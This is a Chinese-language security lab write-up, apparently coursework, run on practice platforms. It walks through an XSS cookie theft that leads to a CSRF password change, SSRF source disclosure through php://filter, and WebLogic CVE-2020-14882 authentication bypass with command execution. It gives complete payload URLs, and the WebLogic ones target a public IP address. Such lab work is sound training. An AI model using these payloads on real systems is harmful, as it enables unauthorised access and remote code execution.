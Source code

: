 ### 1. CSRF

#### DVWA-High 等级

1. 使用pablo(密码letmein)用户登录，DVWA Security - High
2. 通过XSS(Reflected)模块(输入`<img src=x OnerrOr=alert(document.cookie)>`)获取pablo用户的cookie信息

![xss-get-cookie](images/xss-get-cookie.png)

3. 切换到CSRF模块，打开burp进行抓包，在CSRF模块提交新密码

![csrf-burp](images/csrf-burp.png)

4. Cookie段，改成之前xss抓到的cookie值，security改成low，`PHPSESSID=bo5gn68611g61khqn7as1eakqc; security=low`，GET url段的&user_token删除后放行抓到的数据包。显示pablo密码修改成功。用新密码123456登录测试成功。

![password-changed](images/password-changed.png)



#### 使用 Burp 生成 CSRF 利用 POC

1. 使用kobe用户登录

![csrf-post-kobe](images/csrf-post-kobe-8559158.png)

2. 修改个人信息，打开burp进行包抓取

![csrf-post-kobe-modify](images/csrf-post-kobe-modify.png)

3. 使用burp的CRSF POC generator

![csrf-poc-1](images/csrf-poc-1.png)

![csrf-poc-2](images/csrf-poc-2.png)

4. 生成的csrf html 替换抓到的数据包最后一段后放行。

![csrf-poc-3](images/csrf-poc-3.png)



### 2. SSRF（file_get_content），要求获取 ssrf.php 的源码；

1. 在pikatu平台，SSRF(file_get_content)模块，

![ssrf-file-get-content](images/ssrf-file-get-content.png)



2. 使用file_get_contents()函数构造url，file_get_contents里面带有php://filter 我们用它就可以来读取php源码，直接使用 resource 指定 ssrf.php 文件，可以看到访问成功

```url
http://192.168.216.129:8082/pikachu/vul/ssrf/ssrf_fgc.php?file=php://filter/resource=ssrf.php
```

![ssrf-file-get-content-1](images/ssrf-file-get-content-1.png)



3. 获取php源码，拿到网站的源代码被解析了，为了不让它解析，需要对代码再做一层编码，拿到之后我们再进行解码，这样就拿到了网站的源代码。在read参数中加入 convert.base64-encode，重新构造url

```url
http://192.168.216.129:8082/pikachu/vul/ssrf/ssrf_fgc.php?file=php://filter/read=convert.base64-encode/resource=ssrf.php
```

![ssrf-file-get-content-2](images/ssrf-file-get-content-2-8563928.png)

![ssrf-file-get-content-3](images/ssrf-file-get-content-3.png)



### 3. 远程代码执行漏洞：Weblogic RCE

1. 安装docker-compose，下载vulhub

```shell
minwang@minwang-vm-ubuntu:~$ sudo apt install docker-compose
正在读取软件包列表... 完成
正在分析软件包的依赖关系树... 完成
正在读取状态信息... 完成
将会同时安装下列软件：
  containerd.io docker-ce docker-ce-cli python3-attr python3-distutils python3-docker python3-dockerpty python3-docopt
  python3-dotenv python3-jsonschema python3-pyrsistent python3-setuptools python3-texttable python3-websocket
建议安装：
  cgroupfs-mount | cgroup-lite python-attr-doc python-jsonschema-doc python-setuptools-doc
推荐安装：
  docker.io
下列【新】软件包将被安装：
  docker-compose python3-attr python3-distutils python3-docker python3-dockerpty python3-docopt python3-dotenv
  python3-jsonschema python3-pyrsistent python3-setuptools python3-texttable python3-websocket
下列软件包将被升级：
  containerd.io docker-ce docker-ce-cli
升级了 3 个软件包，新安装了 12 个软件包，要卸载 0 个软件包，有 113 个软件包未被升级。
需要下载 47.3 MB 的归档。
解压缩后会消耗 1466 kB 的额外空间。
您希望继续执行吗？ [Y/n] y

minwang@minwang-vm-ubuntu:~$ git clone https://github.com/vulhub/vulhub.git
正克隆到 'vulhub'...
remote: Enumerating objects: 14381, done.
remote: Counting objects: 100% (54/54), done.
remote: Compressing objects: 100% (39/39), done.
remote: Total 14381 (delta 15), reused 44 (delta 10), pack-reused 14327
接收对象中: 100% (14381/14381), 164.22 MiB | 73.00 KiB/s, 完成.
处理 delta 中: 100% (5816/5816), 完成.
正在更新文件: 100% (2065/2065), 完成.

minwang@minwang-vm-ubuntu:~/vulhub/weblogic/CVE-2020-14882$ docker-compose up -d
Creating network "cve-2020-14882_default" with the default driver
Pulling weblogic (vulhub/weblogic:12.2.1.3-2018)...
12.2.1.3-2018: Pulling from vulhub/weblogic
4040fe120662: Pull complete
5788a5fddf0e: Pull complete
88fc159ecf27: Pull complete
138d86176392: Pull complete
586a610c1c83: Pull complete
8362c571c14a: Pull complete
d4802e4ac1d2: Pull complete
Digest: sha256:8ddf63df92426e521e60c2db913602394a799921fb3919094aef012e3ad6b13f
Status: Downloaded newer image for vulhub/weblogic:12.2.1.3-2018
Creating cve-2020-14882_weblogic_1 ... done
```

![weblogic-console](images/weblogic-console.png)

2. 利用CVE-2020-14882漏洞，访问以下URL，即可未授权访问到管理后台页面：

`http://39.104.26.211:7001/console/css/%252e%252e%252fconsole.portal`  (访问404 not found)

`http://39.104.26.211:7001/console/images/%252e%252e%252fconsole.portal` （成功进入管理后台页面）

`注：%252e%252e%252f 是经过两次URL编码后的../，通过这个就可以实现穿越路径未授权访问后台页面`

![weblogic-console-portal](images/weblogic-console-portal.png)

```url
http://39.104.26.211:7001/console/images/%252e%252e%252fconsole.portal?_nfpb=true&_pageLabel=&handle=com.tangosol.coherence.mvel2.sh.ShellSession("java .lang.Runtime.getRuntime().exec('touch%20/tmp/geektime2');")
```

![weblogic-add-file](images/weblogic-add-file.png)
